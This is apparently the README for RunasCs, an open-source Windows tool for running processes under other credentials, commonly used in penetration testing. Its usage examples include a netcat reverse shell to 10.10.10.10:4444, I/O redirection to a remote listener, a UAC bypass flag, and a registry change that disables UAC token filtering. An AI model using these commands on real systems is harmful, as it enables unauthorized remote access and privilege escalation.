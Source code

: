 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
RunasCs v1.5 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--force-profile] [--bypass-uac] [--remote-impersonation]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and CreateProcess* functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     commandline for the process

Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the token of the new process.
                            Default: "2" - Interactive
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and a
                            background process will be created.
                            Default: "120000"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process_timeout to 0.
    -p, --force-profile
                            force the creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            WARNING: If non-existent, it creates the user profile
                            directory in the C:\Users folder.
    -b, --bypass-uac
                            try a UAC bypass to spawn a process without
                            token limitations (not filtered).
    -i, --remote-impersonation
                            spawn a new process and assign the token of the
                            logged on user to the main thread.

Examples:
    Run a command as a local user
        RunasCs.exe user1 password1 "cmd /c whoami /all"
    Run a command as a domain user and logon type as NetworkCleartext (8)
        RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
    Run a background process as a local user,
        RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
    Run a command as an Administrator through remote impersonation
        RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasCs* won't wait for the end of the newly spawned process execution.

### References

----

* [Potatoes and tokens](https://decoder.cloud/2018/01/13/potato-and-tokens/)
* [Starting an Interactive Client Process in C++](https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85))
* [Creating a Child Process with Redirected Input and Output](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
* [Interactive Services](https://learn.microsoft.com/en-us/windows/win32/services/interactive-services)
* [What is up with "The application failed to initialize properly (0xc0000142)" error?](https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/)
* [Getting an Interactive Service Account Shell](https://www.tiraniddo.dev/2020/02/getting-interactive-service-account.html)
* [Reading Your Way Around UAC (Part 1)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
* [Reading Your Way Around UAC (Part 2)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-2.html)
* [Reading Your Way Around UAC (Part 3)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-3.html)
* [Vanara - A set of .NET libraries for Windows implementing PInvoke calls to many native Windows APIs with supporting wrappers](https://github.com/dahall/Vanara)

### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)

